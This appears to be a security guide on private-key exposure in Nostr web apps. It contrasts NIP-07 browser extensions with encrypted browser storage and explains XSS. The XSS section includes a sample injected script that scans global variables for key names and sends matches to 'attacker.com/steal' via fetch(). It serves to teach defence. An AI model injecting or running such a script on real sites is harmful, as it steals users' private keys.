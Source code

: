 ### **Private Key Exposure Risks in Web Environments**

#### ✅ **SECURE: NIP-07 Browser Extensions (RECOMMENDED)**
```typescript
// SECURE: Private key never exposed to web application
const pubkey = await window.nostr.getPublicKey(); // ✅ Only public key exposed
const signedEvent = await window.nostr.signEvent(event); // ✅ Signing happens in extension
```
**Security**: Private key remains in browser extension, never exposed to web application code.

#### ⚠️ **ACCEPTABLE: Encrypted Browser Storage (FALLBACK ONLY)**
```typescript
// ACCEPTABLE: Private key temporarily in memory during use
const privateKey = await retrievePrivateKey(userPassword); // ⚠️ Briefly in memory
const signer = new NDKPrivateKeySigner(privateKey); // ⚠️ NDK holds reference
// Clear from memory after use
privateKey = null; // Limited effectiveness in JavaScript
```
**Security Risks**:
- **Memory Exposure**: Private key exists in JavaScript memory during authentication
- **Browser DevTools**: Accessible via debugger/console if user has DevTools open
- **Memory Dumps**: Could be captured in browser crash dumps or debugging
- **XSS Attacks**: Malicious scripts could potentially access memory
- **Browser Extensions**: Other extensions might access page memory

### **Understanding Web Security Threats**

#### **XSS (Cross-Site Scripting) Attacks - PRIMARY THREAT**
**What is XSS?** Malicious JavaScript code injected into your web application that runs in users' browsers.

**How XSS Works:**
```typescript
// Example: Malicious script injected via user input
const userComment = "<script>alert('XSS!');</script>"; // ❌ Dangerous if not sanitized
document.innerHTML = userComment; // ❌ Executes malicious script

// XSS script could steal private keys from memory:
const maliciousScript = `
<script>
  // Access all variables in global scope
  for (let key in window) {
    if (key.includes('private') || key.includes('key')) {
      // Send private key to attacker's server
      fetch('https://attacker.com/steal', { 
        method: 'POST', 
        body: window[key] 
      });
    }
  }
</script>
`;
```
